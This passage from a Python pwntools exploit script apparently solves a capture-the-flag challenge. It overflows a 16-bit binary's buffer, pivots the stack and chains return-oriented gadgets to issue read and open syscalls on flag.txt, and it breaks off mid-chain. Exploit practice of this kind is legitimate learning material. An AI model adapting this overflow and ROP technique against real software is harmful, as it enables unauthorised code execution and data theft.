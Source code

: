```python
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

#### GDB SCRIPTING DATA ####
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#### PROGRAM EXECUTION ####

pop_bp_ret = p16(0x724) #pop bp; ret
read_syscall = p16(0x88) # syscall read (the syscall sets arguents with bp+2, bp+4, bp+6 AND sets ax)
set_dx_cx_bx = p16(0x9f) # like read_syscall but bypasses ax setting
pivoting = p16(0x722) # stack pivoting (mov bp, sp; pop bp; ret)
set_ax_dx = p16(0x6f9) #mov 0x6(bp) ax, mov 0x8(bp), mov bp sp, pop bp, ret
ret = p16(0x725) # return 
triple_pop = p16(0x6c6) #pop bp, pop di, pop si
exit = p16(0x8e)
bp_address = 0x2000 # base address of the data area where to write ropchain and files

io = start(["../tests/final"])
#io.sendline(" ")
payload = flat(
    b"A"*40, #random data
    b"B"*2, #fake bp (not useful)
    pop_bp_ret, 
    p16(bp_address), # This is the address of bp to write stuff
    read_syscall, 
    pivoting, 
    p16(0x0), #bx
    p16(bp_address), #cx
    p16(0x500), #dx
)

print(io.recvuntil("Pwn me:\n"))
#print(io.recvrepeat(timeout=2))
io.send(payload)

rop_chain = flat(
    # READ TO PUT FLAG.TXT
    p16(0x0),
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0xa), # bp value calculated considering the distances between elements
    set_ax_dx, 
    p16(0x0), # dummy
    ret, #ret to manage alignment
    triple_pop, #triple pop to move sp and avoid  
    p16(0x3), #dummy value for space reason
    p16(0x3), #ax value (SETS SYSCALL NUMBER - READ) 
    p16(0x0), #dx value (not required. will be reset later)
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x16), # new pop bp value
    set_dx_cx_bx, 
    triple_pop, #triple pop to go to the next call
    p16(0x0), #bx
    p16(bp_address+0x200), #cx - I write flag.txt here
    p16(0x500), #dx

    # # # OPEN SYSCALL
    pop_bp_ret, #pop bp, ret
```